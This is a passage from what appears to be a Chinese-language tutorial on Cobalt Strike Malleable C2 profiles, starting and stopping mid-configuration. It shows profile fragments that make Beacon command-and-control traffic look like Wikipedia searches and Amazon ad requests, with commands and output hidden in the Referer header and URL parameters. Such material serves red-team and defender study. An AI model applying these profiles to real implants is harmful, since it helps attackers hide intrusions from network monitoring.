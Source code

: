 	        header "Host" "en.wikipedia.org";
	        header "Accept" "text/html,application/xhtml+xml,application/xml;";
	
	        #session ID
	        id {
	            base64url;
	            prepend "/";
	            uri-append;
	        }
	
	
	        #Beacon's responses
	        output {
	            base64url;
	            prepend "https://en.wikipedia.org/w/index.php?search=";
	            append "&title=Special%3ASearch&go=Go";
	            header "Referer";
	        }
	    }


**上面的 output 写在client节点下面并指定 header "Referer"，意思是post请求的参数 Referer中保存交互指令。**

![](images2/4.jpg)

以 [amazon.profile](https://github.com/rsmudge/Malleable-C2-Profiles/blob/master/normal/amazon.profile)为例：

	http-post {
	    
	    set uri "/N4215/adj/amzn.us.sr.aps";
	
	    client {
	
	        header "Accept" "*/*";
	        header "Content-Type" "text/xml";
	        header "X-Requested-With" "XMLHttpRequest";
	        header "Host" "www.amazon.com";
	
	        parameter "sz" "160x600";
	        parameter "oe" "oe=ISO-8859-1;";
	
	        id {
	            parameter "sn";
	        }
	